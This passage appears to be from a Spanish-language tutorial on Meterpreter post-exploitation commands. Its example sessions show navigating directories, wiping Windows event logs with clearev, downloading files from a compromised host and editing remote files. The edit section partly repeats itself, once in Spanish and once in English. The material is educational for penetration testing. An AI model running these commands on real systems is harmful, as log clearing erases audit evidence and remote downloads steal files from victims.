 Ejemplo de uso:

	meterpreter > pwd
	C:\
	meterpreter > cd c:\windows 
	meterpreter > pwd
	c:\windows
	meterpreter >

- CLEAREV

El comando clearev borrará los registros de aplicación , sistema y seguridad en un sistema Windows . No hay opciones ni argumentos.

Ejemplo de uso:

	meterpreter > clearev
	[*] Borrando 97 registros de la aplicación ...
	[*] Borrando 415 registros del sistema ...
	[*] Borrando 0 registros de Seguridad ...
	meterpreter >

- Download

El comando download descarga un archivo desde la máquina remota. Tenga en cuenta el uso de barras dobles al dar la ruta de Windows.

	meterpreter > download c:\\boot.ini
	[*] descargando: c:\boot.ini -> c:\boot.ini
	[*] descargado: c:\boot.ini -> c:\boot.ini /boot.ini
	meterpreter >

- EDIT

	meterpreter > ls
	
	Listado: C:\Documents and Settings\Administrator\Desktop
	================================================ ======
	
	Modo Tamaño Tipo Última modificación Nombre
	---- ---- ---- ------------- ----
	.
	...recorte...
	.
	100666 / rw-rw-rw- 0 fil 2012-03-01 13:47:10 -0500 edit.txt
	
	meterpreter > edit edit.txt


El comando de edición abre un archivo ubicado en el host de destino.
Utiliza el 'vim' para que todos los comandos del editor estén disponibles.

Uso de ejemplo:

	meterpreter > ls
	
	Listing: C:\Documents and Settings\Administrator\Desktop
	========================================================
	
	Mode              Size    Type  Last modified              Name
	----              ----    ----  -------------              ----
	.
	...snip...
	.
	100666/rw-rw-rw-  0       fil   2012-03-01 13:47:10 -0500  edit.txt
	